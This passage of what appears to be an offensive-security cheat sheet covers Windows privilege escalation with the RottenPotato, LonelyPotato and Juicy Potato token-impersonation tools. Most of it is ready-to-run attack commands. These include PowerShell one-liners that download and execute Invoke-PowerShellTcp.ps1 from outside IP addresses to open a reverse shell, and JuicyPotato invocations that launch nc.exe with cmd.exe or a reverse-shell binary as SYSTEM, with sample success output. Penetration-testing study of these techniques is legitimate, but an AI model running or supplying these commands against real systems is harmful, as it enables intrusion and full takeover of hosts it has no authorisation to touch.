 * Execute the binary: [RottenPotato](https://github.com/breenmachine/RottenPotatoNG)
* Or execute Powershell commands:
```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```

If it doesn't work:
* https://github.com/decoder-it/lonelypotato
* `rev.bat` (simple powershell command to get a shell):
```
powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')
```
* Run
```
c:\temp\MSFRottenPotato.exe * \temp\rev.bat
```
* And we catch a callback for a SYSTEM shell

### Juicy Potato

Binary available at: https://github.com/ohpe/juicy-potato/releases    
:warning: Juicy Potato doesn't work in Windows Server 2019. 

1. Check the privileges of the service account, you should look for **SeImpersonate** and/or **SeAssignPrimaryToken** (Impersonate a client after authentication)

    ```powershell
    whoami /priv
    ```

2. Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object

    * [Windows 7 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise) 
    * [Windows 8.1 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_8.1_Enterprise)
    * [Windows 10 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise)
    * [Windows 10 Professional](https://ohpe.it/juicy-potato/CLSID/Windows_10_Pro)
    * [Windows Server 2008 R2 Enterprise](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2008_R2_Enterprise) 
    * [Windows Server 2012 Datacenter](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter)
    * [Windows Server 2016 Standard](https://ohpe.it/juicy-potato/CLSID/Windows_Server_2016_Standard) 

3. Execute JuicyPotato to run a privileged command.

    ```powershell
    JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
    JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
    JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
        Testing {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} 1337
        ......
        [+] authresult 0
        {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4};NT AUTHORITY\SYSTEM
        [+] CreateProcessWithTokenW OK
    ```
